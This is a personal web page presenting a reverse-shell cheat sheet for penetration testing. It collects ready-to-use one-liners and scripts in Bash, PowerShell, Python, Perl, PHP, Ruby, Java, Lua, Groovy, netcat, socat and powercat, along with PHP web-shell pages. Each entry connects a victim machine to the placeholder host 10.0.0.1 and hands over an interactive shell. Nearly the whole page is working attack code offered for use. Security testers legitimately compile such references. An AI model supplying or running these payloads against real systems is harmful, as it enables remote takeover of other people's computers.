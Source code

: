 _[<-- Home](https://flast101.github.io)_

# Reverse Shell Cheat Sheet

You can find them all around the internet. I couldn't find them all in one place, so I write them down here. Don't hesitate to tell me if you find some more and I will add them to this list.

* * * 
## One-liners

**Bash**

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


**PowerShell** 

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


**Python for Linux**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Python for Windows**

```
exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```
or
```
python -c 'exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```


**Perl**

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


**PHP**

```php
php -r '$sock=fsockopen("10.0.0.1",666);exec("/bin/sh -i <&3 >&3 2>&3");'
```


**Ruby**

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",666).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


**Java**

```java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/666;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

**Lua**

```lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('10.0.0.1',666);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();" 
```

**Telnet**

```
telnet localhost 443 | /bin/sh | telnet localhost 444
```


**Xterm**

```
xterm -display 10.0.0.1:1
```

* * * 


## PHP Web Pages

**Linux**
~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'")?>
~~~

**Windows**

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

* * *

## Tools

**Netcat**

```
nc -e /bin/sh 10.0.0.1 666
```

**Netcat without -e #1**

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 666 > /tmp/f
```

**Netcat without -e #2**

```
nc localhost 443 | /bin/sh | nc localhost 444
```
 
**Socat**

```
user@ubuntu:~$ socat - TCP4:10.0.0.1:4444 EXEC:'/bin/bash -li'
C:\> socat TCP4:10.0.0.1:666 EXEC:'cmd.exe'
```


**Powercat**

```
powercat -c 10.0.0.1 -p 666 -e cmd.exe
```

* * *
## Others

**Powershell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


**Python for Linux**

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Python for Windows**

```python
import os, socket, subprocess, threading, sys

def s2p(s, p):
    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()

def p2s(s, p):
    while True: s.send(p.stdout.read(1).encode())

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
while True:
    try: s.connect((10.0.0.1, 666)); break
    except: pass

p=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)

threading.Thread(target=s2p, args=[s,p], daemon=True).start()

threading.Thread(target=p2s, args=[s,p], daemon=True).start()

try: p.wait()
except: s.close(); sys.exit(0)

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

**Groovy**

```groovy
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**PHP**

The very good Pentestmonkey [php reverse shell](https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php).




_[<-- Home](https://flast101.github.io)_


<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>



